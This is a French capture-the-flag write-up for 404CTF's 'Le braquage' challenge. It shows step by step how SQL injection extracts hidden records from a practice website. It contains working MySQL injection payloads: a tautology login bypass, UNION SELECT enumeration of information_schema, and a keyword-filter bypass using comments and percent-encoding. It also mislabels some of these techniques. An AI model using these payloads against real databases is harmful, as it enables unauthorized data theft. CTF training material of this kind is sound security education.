










# Le braquage

> UTILISER SQLMAP SUR CE CHALLENGE-CI OU TOUT AUTRE CHALLENGE CONDUIRA A UN BAN
>
> Vous êtes sur une affaire de cambriolage. D’après vos informations, un criminel surnommé TITI a prévu une rencontre avec ses complices pour préparer son prochain casse.
>
> Heureusement, votre équipe est parvenu à trouver un site qu’ils utilisent. Ce site leur permet de communiquer et d’échanger des lieux de rendez-vous ainsi que des fausses identités. A vous d’exploiter cette base de données pour obtenir des informations sur le suspect et son opération : nom, prénom, adresse visée, date du casse, heure du casse, téléphone, mot de passe.
>
> Les différents morceaux de flag sont sous la forme : 404CTF{Nom},404CTF{Prénom},404CTF{Adresse},404CTF{Date},404CTF{Heure},404CTF{Téléphone},404CTF{Mdp}
>
> Le flag final est la concaténation de tous les morceaux sans espace : 404CTF{NomPrénomTéléphoneAdresseDateHeureMdp}
>
> https://le-braquage.404ctf.fr/

On arrive sur la page principale du site, qui propose trois pages.



Nous allons explorer chaque page une par une.

## Discussions

On arrive sur une page où on doit entrer l'identifiant et le pseudo de la personne pour obtenir son téléphone, adresse et code.



Malheureusement on ne connaît pas l'identifiant de TITI.

Heureusement, le site est vulnérable à des injections SQL, ce qu'on apprend en entrant `'` dans les champs:



On apprend également que la page utilise MySQL. On peut donc tenter d'utiliser des [payloads MySQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md).

On obtient la table complète en utilisant le payload:

```sql
' OR '1' = '1
```

dans le champ identifiant.

La requête complète devient probablement quelque chose du type `SELECT * FROM table WHERE pseudo='' AND id = '' OR '1'`, ce qui est valide pour toutes les lignes.



Téléphone : `404CTF{0145769456}`
Adresse : `404CTF{21 rue des kiwis}`
Code : `OpérationGorfou`
ID: 7456

## Informations

Cette fois-ci il n'y a qu'un seul champ:



On peut entrer le nom TITI, mais on n'obtient pas plus d'informations.

Comme précédemment, on tente d'entrer un `'` et on obtient une erreur MySQL.
On peut donc tenter d'obtenir des données supplémentaires qui pourraient être dans le base de données.

On suppose que la requête initiale est du type:

```sql
SELECT id, cooperative FROM une_table WHERE id = '{id}'
```

On peut donc tenter de récupérer le nom de la table, en entrant le payload suivant:

```sql
TITI' UNION SELECT 1,table_name FROM information_schema.tables -- 
```

Le `1,` permet d'avoir le bon nombre de colonnes (on sait qu'on en a deux), et le `-- ` permet de mettre la suite en commentaire (ne pas oublier l'espace après les tirets).

On obtient le nom des tables:



On a donc deux tables: `cooperatives` et `Users`.

Cherchons d'abord la table `Users`. On extrait le nom des colonnes avec:

```sql
TITI' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='Users
```

Ce qui nous donne les colonnes `id`, `nom` et `prenom`.

On peut donc extraire les données que l'on souhaite:

```sql
' UNION SELECT prenom,nom FROM Users WHERE id=7456 -- 
```



Prénom: `404CTF{UnGorfou}`
Nom: `404CTF{Vereux}`

Et maintenant le seconde table:

```sql
TITI' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='cooperatives
```

On a les colonnes `pseudo` et `cooperative`. On n'apprendra donc rien de plus avec cette table.

## Rencontres

Encore une page avec un seul champs, et qui utilise toujours MySQL.

Rentrer le code d'opération trouvé précédemment nous donne immédiatement la date et l'heure de l'opération.



Date : `404CTF{2022-07-14}`
Heure : `404CTF{01hDuMatin}`

Tentons donc de voir s'il y a plus de tables ou de colonnes.
En revanche cette fois-ci il y a des filtres:



Il suffit de bypass les filtres un par un, comme il est indiqué quels caractères sont interdits.

On remplace:
- espace par `{}` (et `-- ` par `#` puisqu'il faut un espace après les tirets)
- SELECT par son encodage HTML: `%53%45%4c%45%43%54`


Ce qui donne au final:

```sql
'/**/UNION/**/%53%45%4c%45%43%54/**/1,1,table_name/**/FROM/**/information_schema.tables/**/#
```

On obtient les tables `Password` et `Rdv`.

De même, trouvons les colonnes de `Password`:

```sql
'/**/UNION/**/%53%45%4c%45%43%54/**/1,1,column_name/**/FROM/**/information_schema.columns/**/WHERE/**/table_name='Password
```

On trouve `id` et `mdp`.

```sql
'/**/UNION/**/%53%45%4c%45%43%54/**/1,id,mdp/**/FROM/**/Password/**/WHERE/**/id='7456
```



Mot de passe : `404CTF{GorfousAuPouvoir}`

On a toutes les informations pour réunir le flag!

Flag: `404CTF{VereuxUnGorfou014576945621 rue des kiwis2022-07-1401hDuMatinGorfousAuPouvoir}`